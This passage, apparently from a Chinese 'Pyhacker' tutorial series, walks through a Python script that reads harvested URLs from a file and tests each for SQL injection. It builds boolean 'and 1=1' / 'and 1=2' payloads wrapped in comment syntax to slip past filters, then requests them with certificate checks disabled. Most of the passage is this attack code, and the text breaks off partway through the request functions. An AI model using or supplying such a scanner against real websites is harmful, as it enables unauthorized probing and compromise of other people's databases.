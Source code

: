 配和前面的教程，我们已经可以采集url，并且深度爬取  

采集就不在这里说了，你可以自己去采集一些url  

遍历url 判断SQL注入漏洞：  

```
if __name__ == '__main__':
    f = open('url.txt','r')
    for url in f:
        url = url.strip()
        url_bypass(url)  # c处理url
        main() #判断SQL
        urls = [] #清空列表
```  

自动输出结果我就不写了  

前面也讲了，大家可以根据自己需求修改  

**00x6：**  

完整代码：/books/config/7.[Pyhacker]Sql脚本编写  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests
import re
import urllib3
urllib3.disable_warnings()

urls = []
def url_bypass(url):
    r = r'\?(.*)'
    id = re.findall(r,url)
    id = id[0]
    payload = "?a=/*&{}%20and%201=1%23*/".format(id)

    r2 = r'\?(.*)'
    id2 = re.findall(r2,url)
    id2 = id2[0]
    payload2 = "?a=/*&{}%20and%201=2%23*/".format(id2)

    urlr = '(.*)\?%s'%id
    url_ = re.findall(urlr,url)
    url_=url_[0]
    url_bypass =  url_+payload
    url_bypass2 = url_ + payload2
    urls.append(url_bypass)
    urls.append(url_bypass2)

def req1(url):
    global html1
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    html1 = req.content

def req2(url):
    global html2
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
```